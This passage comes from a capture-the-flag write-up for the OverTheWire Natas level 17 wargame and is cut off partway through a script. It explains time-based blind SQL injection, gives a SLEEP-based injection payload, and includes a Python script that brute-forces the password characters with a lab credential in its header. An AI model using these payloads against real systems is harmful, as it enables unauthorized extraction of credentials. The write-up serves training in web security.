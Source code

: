 That means there&#8217;s no straightforward way to extract information about the password. Situations like this is a totally blind SQL injection. Basically, we have to use some kind of side-channel information, like the time it takes to load the page. It can be tested with a SQLi query like `” OR IF(1=1,SLEEP(5),null)#` where you can see how the response takes much longer to arrive.

Rewriting the script from level 15 to measure the website&#8217;s response time as the indicator should work.

{% highlight python %}
#!/usr/bin/python3
#
# main execution script for solving natas17 on OverTheWire.org
# based on https://gist.github.com/Bengman/e14a4b5f1b592ee06961

import requests
import time

# Get start time
start_time = time.time()
# All possible characters
allChars = '0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ'
# Characters used
usedChars = ''
# Final Password
password = ''
# Our target URL
target = "http://natas17.natas.labs.overthewire.org"
headers = {
  'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101',
  'Authorization': 'Basic bmF0YXMxNzo4UHMzSDBHV2JuNXJkOVM3R21BZGdRTmRraFBrcTljdw==',
}


def send_query(query):
  payload = {'username': query}
  print("Payload: " + str(payload))
  response = requests.post(target + '/index.php?', data=payload, headers=headers, timeout=1)
  return response


r = requests.get(target, headers=headers)
if r.status_code != requests.codes.ok:
  raise ValueError('Couldn\'t connect to target :(')
else:
  print('Target reachable. Starting character parsing...')

# figure out which chars are needed
print("Getting list of characters used...")
for c in allChars:
  print("Trying Character: " + c)
  try:
    resp = send_query('natas18" and if(password LIKE BINARY "%'+c+'%", sleep(5), null)#')
  except requests.exceptions.Timeout: